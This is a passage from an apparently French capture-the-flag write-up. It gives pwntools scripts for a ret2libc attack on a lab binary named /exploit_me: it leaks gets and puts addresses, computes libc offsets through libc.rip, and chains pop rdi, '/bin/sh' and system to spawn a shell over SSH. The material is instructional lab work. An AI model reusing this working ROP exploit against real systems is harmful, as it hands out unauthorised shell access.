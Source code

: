 ```
print("Gets : " + hex(gets_addr)[-5:])
print("Puts : " + hex(puts_addr)[-5:])
libc.address = gets_addr - libc.symbols.gets

bin_sh = p64(next(libc.search(b"/bin/sh")))
system = p64(libc.symbols.system)

# Second payload : on modifie l'adresse de retour pour appeler un "pop rdi; ret"
# Puis on a l'adresse à poper : une adresse quelconque qui contient /bin/sh
# Puis on a l'adresse du "ret" de notre gadget : system (qui va lancer /bin/sh)
payload = prefix + pop_rdi + bin_sh + system

p.clean()
p.sendline(payload)

p.interactive()
```

## Etape 7 (dernière) : binaire /exploit_me (remote)

En remote... on n'a pas forcément la même libc. Il va falloir se servir des addresses leakées pour obtenir la bonne version (via https://libc.rip/). Le code reste globalement le même, une fois lancé une fois on peut obtenir les addresses réelles de gets, de la chaine /bin/sh et de system
```
#!/usr/bin/python
from pwn import *

elf = context.binary = ELF("./exploit_me", checksec = False)
libc = elf.libc

s = ssh(host="10.10.167.211", user="zeeshan")
p = s.run("/exploit_me")

prefix = b"a" * 40
pop_rdi = p64(next(elf.search(asm("pop rdi; ret"))))
go_gets = p64(elf.got.gets)
go_puts = p64(elf.got.puts)
fn_puts = p64(elf.plt.puts)
fn_main = p64(elf.symbols.main)

payload = (prefix + pop_rdi + go_gets + fn_puts +
   pop_rdi + go_puts + fn_puts + 
   fn_main)

p.clean()
p.sendline(payload)

gets_addr = u64(p.recvline().strip().ljust(8, b'\x00'))
puts_addr = u64(p.recvline().strip().ljust(8, b'\x00'))
print("Gets : " + hex(gets_addr)[-5:])
print("Puts : " + hex(puts_addr)[-5:])


offset = gets_addr - 0x6ed90 # adresse trouvée sur libc.rip après la première execution 
bin_sh = p64(offset + 0x18ce57) # idem
system = p64(offset + 0x453a0) # idem

payload = prefix + pop_rdi + bin_sh + system

p.clean()
p.sendline(payload)

p.interactive()
```
